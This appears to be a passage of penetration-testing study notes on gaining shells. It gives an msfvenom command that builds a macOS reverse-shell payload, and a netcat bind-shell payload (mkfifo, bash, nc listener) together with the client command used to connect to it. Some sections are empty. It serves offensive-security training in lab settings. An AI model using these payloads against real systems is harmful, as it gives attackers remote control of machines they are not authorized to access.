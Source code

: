 
# Mac OS
 
| Command                                                                                          | Description |
| ------------------------------------------------------------------------------------------------ | ----------- |
| `msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f macho > nameoffile.macho` | `MSFvenom` command used to generate a MacOS-based `reverse shell` payload            |


---

| Command | Description |
| ------- | ----------- |
|         |             |

---



---

## Establishing a Basic Bind Shell with Netcat

On the server-side, we will need to specify the `directory`, `shell`, `listener`, work with some `pipelines`, and `input` & `output` `redirection` to ensure a shell to the system gets served when the client attempts to connect.

#### No. 1: Server - Binding a Bash shell to the TCP session

  No. 1: Server - Binding a Bash shell to the TCP session

```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.201.134 7777 > /tmp/f
```

The commands above are considered our payload, and we delivered this payload manually. We will notice that the commands and code in our payloads will differ depending on the host operating system we are delivering it to.

#### No. 2: Client - Connecting to bind shell on target

  No. 2: Client - Connecting to bind shell on target

```shell-session
nc -nv 10.129.201.134 7777

Target@server:~$  
```



---

# PHP Reverse Shell
